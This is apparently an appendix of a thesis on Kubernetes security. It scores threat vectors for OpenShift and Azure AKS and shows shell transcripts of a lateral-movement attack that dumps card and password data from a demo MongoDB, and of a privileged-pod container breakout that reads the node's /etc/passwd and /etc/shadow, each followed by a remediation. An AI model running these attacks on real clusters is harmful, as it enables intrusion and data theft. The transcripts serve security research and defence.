%\usepackage{caption}

\appendix
\doublespacing
\chapter{Appendix}

%TODO include full measure list for OCP + AKS? :P

\section{Supplementary information regarding AKS}

\subsection{AKS versions available on May 3rd, 2019}
{\centering
\frame{
\includegraphics[scale=0.75]{pictures/aksVersionsMay.jpg}\label{aksVersionsMay}}
\captionof{figure}{List of k8s versions available in AKS during the practical part of the thesis on May 3rd, 2019. Screenshot taken by Lukas Grams.}
}
\subsection{Security advisory email from Microsoft}
{\centering
\frame{
\includegraphics[scale=0.5]{pictures/securityMailMS.jpg}\label{securityMailMS}}
\captionof{figure}{An email from July 15th, 2019, advising users to reboot their AKS clusters in order to apply security patches. Screenshot taken by Lukas Grams.}
}
\subsection{AKS cluster configuration}
{\centering

\includegraphics[scale=0.9]{pictures/aksConfig_smaller.jpg}\label{aksConfig}
\captionof{figure}{The final \gls{aks} cluster configuration used. Screenshot taken by Lukas Grams.}
}
\section{Estimating the solution specific risk, continued} \label{riskAssessmentContd}

\subsection{V01 - Reconnaissance through interface components}

In the \gls{ocp} setup, a user with read access to the apiserver or webinterfaces can scout out information. It is assumed that these are only accessible internally in typical corporate environments (Vantage Point: 3).
By default, each account (project admin or project user, but not cluster admin) can only see information about their own project while a cluster admin can see all namespaces.
The worst case assumption would be leveraging user permissions (RAL: 3).
The information gathering processes and interfaces are known and documented pretty well (Awareness: 3), but the information gathered has to be analyzed specific to the environment (Exploitability: 2).
This could show information useful to an attacker like software versions, running systems or pods, user account privileges or misconfigurations and may help in planning and confirming the effectiveness of further attacks (Impact: 1).
With a total risk value of 3, it is classified as a low risk. \\
The circumstances in the \gls{aks} setup are identical to \gls{ocp} with the exception of those interfaces being available from the public internet (Vantage Point: 4, RAL: 3, Awareness: 3, Exploitability: 2, Impact: 1). The total risk value remains unchanged.

\subsection{V02 - Reading confidential information through interface components}

In the \gls{ocp} setup, a user with access to the apiserver or webinterfaces (Vantage Point: 3) and read access (RAL: 3) can gather confidential secrets like certs, tokens or passwords which are intended to be used by automated systems and/or users to authenticate themselves to cluster components and gain authorized access. They could pull/push images, trigger actions in other applications or containers and more. As a leakage of confidential information, his would constitute a security incident by itself (Impact: 2). 
Kube-hunter is a readily available tool that checks for some confidential information automatically (Exploitability: 3).
With a total risk value of 6, it is classified as a medium risk. \\
Synonymous to V01, the circumstances in the \gls{aks} setup are identical to \gls{ocp} with the exception of those interfaces being available from the public internet (Vantage Point: 4, RAL: 3, Awareness: 3, Exploitability: 2, Impact: 1). 
The total risk value is increased from 6 to 7 by this, classifying it as a high risk.

\subsection{V03 - Configuration manipulation through interface components}

In the \gls{ocp} setup, administrators (RAL: 1) with access to the apiserver or webinterface (Vantage Point: 3) can change configurations on the cluster. This includes project-specific resources like pods, services, routes, but also cluster-global resources like nodes or authorization configuration (Impact: 3).
The capabilities can be looked up through the documented console commands of kubectl (Awareness: 3), but ways to achieve long-term benefit as an attacker has to be analyzed environment-specifically (Exploitability: 2).
With a total risk value of 7, it is classified as a high risk. \\
Synonymous to V01, the circumstances in the \gls{aks} setup are identical to \gls{ocp} with the exception of those interfaces being available from the public internet (Vantage Point: 4, RAL: 1, Awareness: 3, Exploitability: 2, Impact: 3). 
The total risk value is increased from 7 to 8 by this, classifying it as a high risk.

\subsection{V04 - Compromise internal master components}

In the \gls{ocp} setup, misconfiguration of internal \gls{k8s} components could lead to a full cluster compromise (Impact: 3).  It is assumed that these are only accessible internally in typical corporate environments (Vantage Point: 3). The cluster configuration and all secrets and authorization credentials are stored in the etcd instance(s). This is secured by the \gls{ocp} setup process and and administrator would have to willingly misconfigure the cluster (RAL: 1) through internal settings not intended to be changed in order to make this possible. Undisclosed vulnerabilities in the \gls{ocp} could lead to this problem, too (Exploitability: 0).
Kube-hunter checks for generally common cluster misconfigurations in this regard (Awareness: 3).
With a total risk value of 5, it is classified as a medium risk. \\
Synonymous to V01, the circumstances in the \gls{aks} setup are identical to \gls{ocp} with the exception of those interfaces being available from the public internet and internal component configuration being maintained by Microsoft. (Vantage Point: 4, RAL: 1, Awareness: 3, Exploitability: 0, Impact: 3). 
The total risk value is increased from 5 to 6 by this, still classifying it as a medium risk.

\subsection{V05 - Image poisoning and baiting}

In the \gls{ocp} setup, the untargeted version\footnote{refer to section \ref{v05} for a detailed description} needs the least access. A free and anonymously created dockerhub account to upload malicious images is available from anywhere (Vantage Point: 4) by anyone (RAL: 4). By itself only a single application or namespace / project would be affected by this (Impact: 2), as further exploitation of this foothold for an attacker is handled in vector V07.
These methods are publicly known and both the docker container runtime and docker hub actively try to mitigate this, but malicious images are only deleted when reported by enough users (Awareness: 3).
Base containers and malware as well as known vulnerable versions are readily available from public sources, but need some technical expertise to 'weaponize' (Exploitability: 2).
With a total risk value of 7, it is classified as a high risk. \\
The circumstances in the \gls{aks} setup are identical to \gls{ocp}, resulting in the same risk values.

\subsection{V06 - Configuration poisoning and baiting}

In the \gls{ocp} setup, the untargeted version also needs the least access. Synonymous to V05, this can be done by anyone (RAL: 4) from anywhere (Vantage Point: 4).
Compromised configurations can lead to a full cluster compromise (Impact: 3).
Examples are readily available from public sources (Awareness: 3), but need some technical expertise to 'weaponize' (Exploitability: 2).
With a total risk value of 10, it is classified as a critical risk. \\
The circumstances in the \gls{aks} setup are identical to \gls{ocp}, resulting in the same risk values.


\subsection{V09 - Image cache compromise}

In the \gls{ocp} setup, a cached container image could be swapped out for a malicious one, thus affecting a container and its application (Impact: 2). In order to do this, an attacker would need administrative access to the underlying node (RAL: 1) and be able to execute commands on it (Vantage Point: 1). This is a sensible vector not commonly discussed (Awareness: 2) and would require technical knowledge to conduct (Exploitability: 2).
With a total risk value of 3, it is classified as a low risk. \\
The circumstances in the \gls{aks} setup are identical to \gls{ocp}, resulting in the same risk values.

\subsection{V10 - Container modification at runtime}

In the \gls{ocp} setup, an attacker can try to modify and use an already running container instead of deploying a container with malicious contents,. In order to do this, they would need to execute commands from within the container (Vantage Point: 2) and be able to write to its file system (RAL: 2). This would affect the container accessed and in turn the application it is part of (Impact: 2).
Trying to do this within a container is straightforward (Awareness: 3) and would require the same technical expertise as any command line interaction with a Linux system (Exploitability: 2).
With a total risk value of 5, it is classified as a medium risk. \\
The circumstances in the \gls{aks} setup are identical to \gls{ocp}, resulting in the same risk values.

\subsection{V11 - Resource hoarding (sabotage)}

First, the \gls{ocp} setup will be assessed.
With enough access or restrictions too lax, an attacker with access to the cluster interfaces (Vantage Point: 3) and the ability to change or add \gls{k8s} objects (RAL: 2)  may be able to seriously halt the availability of all workloads processed by the cluster by misconfiguration, conducting Denial of Service attacks or wiping nodes or cluster configurations. Since clusters are a complex distributed system with a multitude of configurations, finding the sabotaged component could take considerable expertise and time if done well, increasing the impact – especially in on-premise environments, where resources are limited.
The potential to do this is common sense (Awareness: 3), sabotaging the cluster in a complex and effective way (Impact: 3) may take deeper knowledge and would have to be customized to the environment at hand (Exploitability: 2).
With a total risk value of 8, it is classified as a high risk. \\
The circumstances in the \gls{aks} setup differ again by the interfaces being available from the public internet (Vantage Point: 4).
Since it is far easier to spin up additional resources in the cloud to continue operations, less impact is estimated (Impact: 2).
All other circumstances remain (RAL: 2, Awareness: 3, Exploitability: 2).
With a total risk value of 6, it is classified as a medium risk.

\newpage
\subsection{V12 - Resource misuse (cryptojacking)}

The \gls{ocp} setup will be assessed first.
In order to achieve more monetary gain, an attacker with access to the cluster interfaces (Vantage Point: 3) and the ability to change or add \gls{k8s} objects (RAL: 2) will try to be discrete. 
The goal is to (ab)use the computing resources not belonging to and payed for by him to achieve monetary gain though mining cryptocurrencies.
Cryptojacking is regularly cited as an up-and-coming attack (Awareness: 3), but to do it without being detected needs some technical skill (Exploitability: 2).
If successful for longer periods of time, a companies on-premise resources will be available to a lesser degree as some of them are used for mining. In addition to that, the underlying hardware will be degraded at a higher rate, leading to hardware failures and replacements sooner than normal (Impact: 2).
With a total risk value of 5, it is classified as a medium risk. \\
The circumstances in the \gls{aks} setup differ again by the interfaces being available from the public internet (Vantage Point: 4).
In contrast to V11, the ability to spin up additional resources in the cloud increases the impact here, since those are virtually unlimited and simply billed towards the attack victim (Impact: 3).
All other circumstances remain (RAL: 2, Awareness: 3, Exploitability: 2).
With a total risk value of 8, it is classified as a high risk.

\subsection{V13 - Adding rogue containers}

The \gls{ocp} setup will be assessed first.
Instead of manipulating running containers, an attacker with access to the API (Vantage Point: 3) and permissions to spin up containers (RAL: 2) may start their own ones. 
This is still restricted by container admission restrictions on the user/project, but they can be leveraged to compromise parts of the application (Impact: 2).
Doing this is common sense (Awareness: 3), but as in other vectors some technical skill is required to prepare a malicious container (Exploitability: 2)
With a total risk value of 5, it is classified as a medium risk. \\
Synonymous to V01, the circumstances in the \gls{aks} setup are identical to \gls{ocp} with the exception of those interfaces being available from the public internet. (Vantage Point: 4, RAL: 2, Awareness: 3, Exploitability: 2, Impact: 2). 
The total risk value is increased from 5 to 6 by this, still classifying it as a medium risk.

\subsection{V14 - Adding rogue nodes}

In the \gls{ocp} setup, an attacker with access to the API (Vantage Point: 3) could try to add a malicious node to the cluster. Similar to V08, they could gain full access to containers of multiple projects by this (Impact: 3).
By design, cluster administrator access is needed to add a node within OCP (RAL: 1).
This technique is not talked about that much, but still available in public resources and possible in all clusters (Awareness: 2). Docs are publicly available to add nodes to a cluster, basic Linux server administration skills are needed to follow them (Exploitability: 2).
With a total risk value of 6, it is classified as a medium risk. \\
The \gls{aks} interfaces are again available from the public internet (Vantage Point: 4).
Adding nodes would still be possible here, but since they are automatically provisioned and customization of provisioned VMs is not straightforward, this attack is relatively unorthodox (Awareness: 1).
The other circumstances remain synonymous to the \gls{ocp} setup (RAL: 1, Exploitability: 2, Impact: 3).
The total risk value remains unchanged at 6, a medium risk.

\subsection{V15 - Leveraging bad user practice}

The \gls{ocp} setup will be assessed first.
User practices outside of the cluster are not affected by cluster controls. Users entering their credentials in faked login windows or publicizing access tokens through public repositories are relatively common occurrences that could potentially allow anyone finding them (RAL: 4) privileged access within that user context (Impact: 2) if they can reach the cluster interfaces (Vantage Point: 3).
There are tools available to do this, but doing this is non-intuitive (Awareness: 2) and using them effectively requires some technical skill (Exploitability: 2).
With a total risk value of 6, it is classified as a medium risk. \\
Synonymous to V01, the circumstances in the \gls{aks} setup are identical to \gls{ocp} with the exception of those interfaces being available from the public internet (Vantage Point: 4, RAL: 4, Awareness: 2, Exploitability: 2, Impact: 2). 
The total risk value remains identical.

\newpage
\subsection{V16 - Leveraging bad infrastructure}

The \gls{ocp} setup will be assessed first.
The underlying nodes could allow an attacker easy entry, even if the platform itself is secured.
Worst case scenarios include nodes available to the public internet (Vantage Point: 4) with insecure configuration, allowing any attacker unauthorized node access (RAL: 4). Synonymous to V08, this could lead to multiple compromised applications (Impact: 3). Technical know-how would still be needed to leverage this (Exploitability: 2) and attackers are assumed to be unlikely to look for containerized workloads specifically (Awareness: 2).
With a total risk value of 9, it is classified as a high risk. \\
The circumstances in the \gls{aks} setup are identical to \gls{ocp}, resulting in the same risk values.

\subsection{V17 - Leveraging bad patch management}

Known and unpatched vulnerabilities in any components can lead to any number of problems. For both the \gls{aks} and \gls{ocp} setup, worst case values are assumed for all factors except Exploitability, as technical knowledge is required to leverage them. (Vantage Point: 4, RAL: 4, Awareness: 3, Exploitability: 2, Impact: 3).
With a total risk value of 10, it is classified as a critical risk for both setups. \\

\newpage
\section{Attack demonstrations}
%TODO shorten out more irrelevant lines?

\subsection{Lateral movement attack preparation in the OCP cluster}
\begin{lstlisting}[
	caption={Shortened version of the shell I/O in preparation of the \gls{ocp} cluster attack by lateral movement},
	label={lst:lateral-ocp-prep},
	basicstyle=\tiny,
	language=bash,
	breaklines=true]
[root@openshiftmaster ~]# oc projects
You have access to the following projects and can switch between them with 'oc project <projectname>':

    default
    kube-public
    ...
    sock-shop
  * testuser

Using project "testuser" on server "https://openshiftmaster.lgr.com:8443".
[root@openshiftmaster ~]# oc get service -n sock-shop
NAME           TYPE        CLUSTER-IP       EXTERNAL-IP   PORT(S)        AGE
carts          ClusterIP   172.30.64.220    <none>        80/TCP         17d
...
user-db        ClusterIP   172.30.2.17      <none>        27017/TCP      17d
[root@openshiftmaster ~]# cat network-utils.yaml
apiVersion: v1
kind: Pod
metadata:
  name: network-utils
spec:
  containers:
    - name: network-utils
      image: amouat/network-utils
      command: [ "sh", "-c"]
      args:
        - while true; do
            sleep 10;
          done;
restartPolicy: Never
[root@openshiftmaster ~]# oc adm policy scc-review -z default -f network-utils.yaml
RESOURCE            SERVICE ACCOUNT   ALLOWED BY
Pod/network-utils   default           anyuid
Pod/network-utils   default           hostmount-anyuid
Pod/network-utils   default           hostnetwork
[root@openshiftmaster ~]# oc apply -f network-utils.yaml
pod/network-utils created
[root@openshiftmaster ~]# oc rsh network-utils
# 
\end{lstlisting}

\newpage
\subsection{Lateral movement attack conduction in the OCP cluster}
\begin{lstlisting}[
	caption={Shortened version of the shell I/O during the exploitation of the \gls{ocp} cluster attack by lateral movement},
	label={lst:lateral-ocp-exploit},
	basicstyle=\tiny,
	language=bash,
	breaklines=true]
# nmap -p27017 --script mongodb-databases 172.30.2.17 -Pn

Starting Nmap 6.47 ( http://nmap.org ) at 2019-06-13 15:16 UTC
Nmap scan report for 172.30.2.17
Host is up (0.00051s latency).
PORT      STATE SERVICE
27017/tcp open  mongodb
| mongodb-databases:
|   totalSize = 229376
|   ok = 1
|   databases
|     2
|       name = users
|       empty = false
|       sizeOnDisk = 114688
|     0
|       name = admin
|       empty = false
|       sizeOnDisk = 49152
|     1
|       name = local
|       empty = false
|_      sizeOnDisk = 65536

Nmap done: 1 IP address (1 host up) scanned in 0.52 seconds
# curl fastdl.mongodb.org/linux/mongodb-linux-x86_64-4.0.10.tgz --resolve fastdl.mongodb.org:80:52.222.167.194 -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 81.0M  100 81.0M    0     0  1069k      0  0:01:17  0:01:17 --:--:-- 1614k
# tar -xvf mongodb-linux-x86_64-4.0.10.tgz
...
mongodb-linux-x86_64-4.0.10/bin/mongo
mongodb-linux-x86_64-4.0.10/bin/install_compass
# ./mongodb-linux-x86_64-4.0.10/bin/mongo 172.30.2.17
MongoDB shell version v4.0.10
connecting to: mongodb://172.30.2.17:27017/test?gssapiServiceName=mongodb
...
Welcome to the MongoDB shell.
...
Server has startup warnings:
2019-06-12T08:05:30.285+0000 I CONTROL  [initandlisten]
2019-06-12T08:05:30.285+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2019-06-12T08:05:30.285+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2019-06-12T08:05:30.285+0000 I CONTROL  [initandlisten]
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten]
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten] ** WARNING: /sys/kernel/mm/transparent_hugepage/enabled is 'always'.
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten] **        We suggest setting it to 'never'
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten]
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten] ** WARNING: /sys/kernel/mm/transparent_hugepage/defrag is 'always'.
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten] **        We suggest setting it to 'never'
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten]
> show dbs
admin  0.000GB
local  0.000GB
users  0.000GB
> use users
switched to db users
> show collections
addresses
cards
customers
> db.cards.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830ae"), "longNum" : "5953580604169678", "expires" : "08/19", "ccv" : "678" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b1"), "longNum" : "5544154011345918", "expires" : "08/19", "ccv" : "958" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b4"), "longNum" : "0908415193175205", "expires" : "08/19", "ccv" : "280" }
{ "_id" : ObjectId("57a98ddce4b00679b4a830d2"), "longNum" : "5429804235432", "expires" : "04/16", "ccv" : "432" }
> db.customers.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830af"), "firstName" : "Eve", "lastName" : "Berger", "username" : "Eve_Berger", "password" : "fec51acb3365747fc61247da5e249674cf8463c2", "salt" : "c748112bc027878aa62812ba1ae00e40ad46d497", "addresses" : [ ObjectId("57a98d98e4b00679b4a830ad") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830ae") ] }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b2"), "firstName" : "User", "lastName" : "Name", "username" : "user", "password" : "e2de7202bb2201842d041f6de201b10438369fb8", "salt" : "6c1c6176e8b455ef37da13d953df971c249d0d8e", "addresses" : [ ObjectId("57a98d98e4b00679b4a830b0") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830b1") ] }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b5"), "firstName" : "User1", "lastName" : "Name1", "username" : "user1", "password" : "8f31df4dcc25694aeb0c212118ae37bbd6e47bcd", "salt" : "bd832b0e10c6882deabc5e8e60a37689e2b708c2", "addresses" : [ ObjectId("57a98d98e4b00679b4a830b3") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830b4") ] }
> db.addresses.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830ad"), "number" : "246", "street" : "Whitelees Road", "city" : "Glasgow", "postcode" : "G67 3DL", "country" : "United Kingdom" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b0"), "number" : "246", "street" : "Whitelees Road", "city" : "Glasgow", "postcode" : "G67 3DL", "country" : "United Kingdom" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b3"), "number" : "4", "street" : "Maes-Y-Deri", "city" : "Aberdare", "postcode" : "CF44 6TF", "country" : "United Kingdom" }
{ "_id" : ObjectId("57a98ddce4b00679b4a830d1"), "number" : "3", "street" : "my road", "city" : "London", "country" : "UK" }
>
\end{lstlisting}

\subsection{Lateral movement attack remediation in the OCP cluster}
\begin{lstlisting}[
	caption={Shell I/O of mitigating the \gls{ocp} cluster attack by lateral movement},
	label={lst:lateral-ocp-mitigate},
	basicstyle=\tiny,
	language=bash,
	breaklines=true]
[root@openshiftmaster ~]# oc projects
You have access to the following projects and can switch between them with 'oc project <projectname>':

    default
    kube-public
    kube-system
    management-infra
    openshift
    openshift-infra
    openshift-logging
    openshift-node
    openshift-sdn
    openshift-web-console
    other-team-deployment
    sock-shop
  * testuser

Using project "testuser" on server "https://openshiftmaster.lgr.com:8443".
[root@openshiftmaster ~]# oc adm pod-network isolate-projects sock-shop
[root@openshiftmaster ~]# oc rsh network-utils
# ./mongodb-linux-x86_64-4.0.10/bin/mongo 172.30.2.17
MongoDB shell version v4.0.10
connecting to: mongodb://172.30.2.17:27017/test?gssapiServiceName=mongodb
2019-06-14T14:31:15.634+0000 E QUERY    [js] Error: couldn't connect to server 172.30.2.17:27017, connection attempt failed: SocketException: Error connecting to 172.30.2.17:27017 :: caused by :: Connection timed out :
connect@src/mongo/shell/mongo.js:344:17
@(connect):2:6
exception: connect failed
#
\end{lstlisting}

\vspace{-0.25cm}
\subsection{Container breakout attack conduction in the OCP cluster}
\vspace{-0.25cm}

\begin{lstlisting}[
	caption={Shortened version of the shell I/O during the exploitation of the \gls{ocp} cluster attack by breakout},
	label={lst:breakout-ocp-exploit},
	basicstyle=\tiny,
	language=bash,
	breaklines=true]
[root@openshiftmaster ~]# cat container_breakout.yaml
apiVersion: v1
kind: Pod
metadata:
    name: breakout
spec:
    containers:
    - name: breakout
      securityContext:
        privileged: true
      image: alpine
      command: ["/bin/sh"]
      args: ["-c",
                'echo -e "        /etc/passwd of underlying node";
                cat /mnt/rootnode/etc/passwd;
                echo -e "-----------\n        /etc/shadow of underlying node";
                cat /mnt/rootnode/etc/shadow;
                echo -e "-----------\n        root directory of underlying node";
                ls -la /mnt/rootnode/;
                touch /mnt/rootnode/ALL_YOUR_NODES_ARE_BELONG_TO_US;
                echo -e "-----------\n        root directory of underlying node after manipulation through this container";
                ls -la /mnt/rootnode/;
                while true;
                  do sleep 30;
                done;'
        ]
      volumeMounts:
      - name: root-volume
        mountPath: /mnt/rootnode
    volumes:
    - name: root-volume
      hostPath:
        path: /
[root@openshiftmaster ~]# oc apply -f container_breakout.yaml
pod/breakout created
[root@openshiftmaster ~]# oc logs breakout
        /etc/passwd of underlying node
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
...
gluster:x:997:994:GlusterFS daemons:/run/gluster:/sbin/nologin
-----------
        /etc/shadow of underlying node
root:$6$Psl5jPOS<REDACTED>1::0:99999:7:::
bin:*:17492:0:99999:7:::
...
gluster:!!:18036::::::
-----------
        root directory of underlying node
total 32
dr-xr-xr-x   17 root     root           236 Jun 13 14:34 .
drwxr-xr-x    3 root     root            22 Jun 13 14:35 ..
lrwxrwxrwx    1 root     root             7 May 16 14:59 bin -> usr/bin
...
drwxr-xr-x   20 root     root           282 May 20 08:00 var
-----------
        root directory of underlying node after manipulation through this container
total 32
dr-xr-xr-x   17 root     root           275 Jun 13 14:35 .
drwxr-xr-x    3 root     root            22 Jun 13 14:35 ..
-rw-r--r--    1 root     root             0 Jun 13 14:35 ALL_YOUR_NODES_ARE_BELONG_TO_US
lrwxrwxrwx    1 root     root             7 May 16 14:59 bin -> usr/bin
...
drwxr-xr-x   20 root     root           282 May 20 08:00 var
\end{lstlisting}

\subsection{Container breakout node file system in the OCP cluster}

\begin{lstlisting}[
	caption={Shortened version of the shell I/O on the \gls{ocp} cluster worker node after the attack by breakout},
	label={lst:breakout-ocp-nodeOutput},
	basicstyle=\tiny,
	language=bash,
	breaklines=true]
[root@openshiftworker ~]# ls -la /
total 32
dr-xr-xr-x.  17 root root  275 Jun 13 16:35 .
dr-xr-xr-x.  17 root root  275 Jun 13 16:35 ..
-rw-r--r--.   1 root root    0 Jun 13 16:35 ALL_YOUR_NODES_ARE_BELONG_TO_US
lrwxrwxrwx.   1 root root    7 May 16 16:59 bin -> usr/bin
...
drwxr-xr-x.  20 root root  282 May 20 10:00 var
\end{lstlisting}

\subsection{Container breakout attack remediation in the OCP cluster}
\begin{lstlisting}[
	caption={Shell I/O of mitigating the \gls{ocp} cluster attack by breakout},
	label={lst:breakout-ocp-mitigate},
	basicstyle=\tiny,
	language=bash,
	breaklines=true]
[root@openshiftmaster ~]# oc adm policy scc-review -z default -f container_breakout.yaml
RESOURCE       SERVICE ACCOUNT   ALLOWED BY
Pod/breakout   default           privileged
[root@openshiftmaster ~]# oc adm policy remove-scc-from-user privileged -z default
scc "privileged" removed from: ["system:serviceaccount:testuser:default"]
[root@openshiftmaster ~]# oc adm policy scc-review -z default -f container_breakout.yaml
RESOURCE   SERVICE ACCOUNT   ALLOWED BY
\end{lstlisting}

\subsection{Lateral movement attack preparation in the AKS cluster}
\begin{lstlisting}[
	caption={Shortened version of the shell I/O in preparation of the \gls{aks} cluster attack by lateral movement},
	label={lst:lateral-aks-prep},
	basicstyle=\tiny,
	language=bash,
	breaklines=true]
lukas@Azure:~$ kubectl get namespace
NAME          STATUS   AGE
default       Active   7h
...
sock-shop     Active   6h
testuser      Active   6h
lukas@Azure:~$ kubectl get service -n sock-shop
NAME           TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)        AGE
carts          ClusterIP   10.0.167.221   <none>        80/TCP         6h
...
user-db        ClusterIP   10.0.1.75      <none>        27017/TCP      6h
lukas@Azure:~$ cat network-utils.yaml
apiVersion: v1
kind: Pod
metadata:
  name: network-utils
spec:
  containers:
    - name: network-utils
      image: amouat/network-utils
      command: [ "sh", "-c"]
      args:
        - while true; do
            sleep 10;
          done;
  restartPolicy: Never
lukas@Azure:~$
lukas@Azure:~$ kubectl apply -f network-utils.yaml
pod/network-utils created
lukas@Azure:~$ kubectl exec -it network-utils -- /bin/bash
root@network-utils:/#
\end{lstlisting}

\subsection{Lateral movement attack conduction in the AKS cluster}

\begin{lstlisting}[
	caption={Shortened version of the shell I/O during the exploitation of the \gls{aks} cluster attack by lateral movement},
	label={lst:lateral-aks-exploit},
	basicstyle=\tiny,
	language=bash,
	breaklines=true]
root@network-utils:/# nmap -p27017 --script mongodb-databases 10.0.1.75 -Pn

Starting Nmap 6.47 ( http://nmap.org ) at 2019-06-17 15:36 UTC
Nmap scan report for user-db.sock-shop.svc.cluster.local (10.0.1.75)
Host is up (0.000071s latency).
PORT      STATE SERVICE
27017/tcp open  mongodb
| mongodb-databases:
|   databases
|     0
|       sizeOnDisk = 49152
|       name = admin
|       empty = false
|     1
|       sizeOnDisk = 65536
|       name = local
|       empty = false
|     2
|       sizeOnDisk = 114688
|       name = users
|       empty = false
|   ok = 1
|_  totalSize = 229376

Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds
root@network-utils:/# curl fastdl.mongodb.org/linux/mongodb-linux-x86_64-4.0.10.tgz -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 81.0M  100 81.0M    0     0  20.6M      0  0:00:03  0:00:03 --:--:-- 20.6M
root@network-utils:/# tar -xvf mongodb-linux-x86_64-4.0.10.tgz
...
mongodb-linux-x86_64-4.0.10/bin/mongo
mongodb-linux-x86_64-4.0.10/bin/install_compass
root@network-utils:/# ./mongodb-linux-x86_64-4.0.10/bin/mongo 10.0.1.75
MongoDB shell version v4.0.10
connecting to: mongodb://10.0.1.75:27017/test?gssapiServiceName=mongodb
...
Welcome to the MongoDB shell.
...
